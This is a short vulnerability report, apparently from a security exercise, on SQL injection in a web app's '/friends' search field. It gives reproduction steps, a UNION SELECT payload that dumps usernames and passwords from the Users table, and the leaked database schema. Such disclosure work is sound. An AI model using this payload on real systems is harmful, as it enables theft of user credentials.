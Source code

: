 # Vulnerability 1: SQL Injection in search field in /friends

- Vulnerability: SQL Injection
- Where: `/friends` endpoint: `search bar` in search my friends bar
- Impact: Arbitrary `SELECT` queries on the database

## Steps to reproduce

1. Register
2. Login
3. Navigate to the `/friends` endpoint
4. Search for `' union select username, password, 3, 4, 5 from Users; -- `
5. Collect all the passwords

[(POC)](vuln1.py)

## Impact

Severe. This allows the attacker to know all the credentials to all users (including possible admins) and to learn the schema of the DB:

```
Friends(id int, username1 varchar(20), username2 varchar(20));
FriendsRequests(id int, username2 varchar(20), username2 varchar(20));
Post(id int, author varchar(20), content text, type enum, created_at timestamp, updated_at timestamp);
Users(username varchar(20), password varchar(20), name text, about text, photo varchar(255));
```
